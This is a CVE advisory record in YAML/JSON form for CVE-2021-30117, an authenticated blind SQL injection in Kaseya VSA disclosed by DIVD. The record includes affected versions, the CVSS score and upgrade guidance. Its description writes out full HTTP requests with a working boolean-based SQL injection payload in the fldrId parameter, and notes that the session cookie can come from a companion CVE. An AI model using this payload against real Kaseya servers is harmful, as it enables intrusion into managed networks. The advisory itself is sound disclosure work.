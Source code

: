 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta" : {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30117",
        "STATE": "PUBLIC",
        "TITLE": "Authenticated SQL injection in Kaseya VSA < v9.5.6"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (on premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            },
                            {
                                "product_name": "Kaseya VSA Agent",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.0.23"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "The API call /InstallTab/exportFldr.asp is vulnerable to a semi-authenticated boolean-based blind SQL injection in the parameter fldrId.\n\nDetailed description\n---\n\nGiven the following request:\n```\nGET /InstallTab/exportFldr.asp?fldrId=1’ HTTP/1.1\nHost: 192.168.1.194\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\nAccept-Language: en-US,en;q=0.5\nAccept-Encoding: gzip, deflate\nDNT: 1\nConnection: close\nUpgrade-Insecure-Requests: 1\nCookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861;  agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519;\n```\n\nWhere the sessionId cookie value has been obtained via CVE-2021-30116. The result should be a failure.\n\nResponse:\n```\nHTTP/1.1 500 Internal Server Error\nCache-Control: private\nContent-Type: text/html; Charset=Utf-8\nDate: Thu, 01 Apr 2021 19:12:11 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 881\n \n<!DOCTYPE html>\n<HTML>\n \n<HEAD>\n \t<title>Whoops.</title>\n        <meta http-equiv=\"X-UA-Compatible\" content=\"IE=Edge\" />\n \n \n\t<link id=\"favIcon\" rel=\"shortcut icon\" href=\"/themes/default/images/favicon.ico?307447361\"></link>\n \n----SNIP----\n```\n\nHowever when fldrId is set to ‘(SELECT (CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END))’ the request is allowed.\n\nRequest:\n```\nGET /InstallTab/exportFldr.asp?fldrId=%28SELECT%20%28CASE%20WHEN%20%281%3D1%29%20THEN%201%20ELSE%20%28SELECT%201%20UNION%20SELECT%202%29%20END%29%29 HTTP/1.1\nHost: 192.168.1.194\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\nAccept-Language: en-US,en;q=0.5\nAccept-Encoding: gzip, deflate\nDNT: 1\nConnection: close\nUpgrade-Insecure-Requests: 1\nCookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861;  agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519;\n```\n\nResponse:\n```\nHTTP/1.1 200 OK\nCache-Control: private\nContent-Type: text/html; Charset=Utf-8\nDate: Thu, 01 Apr 2021 17:33:53 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 7960\n \n \n<html>\n<head>\n<title>Export Folder</title>\n<style>\n------ SNIP ----- \n```"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-89 SQL Injection"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "MISC",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "SaaS version has been fixed by the vendor\n\nOnpremise\nUpgrade the server to version 9.5.6 or above\nUpgrade the agent to version 9.5.0.23 or above"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


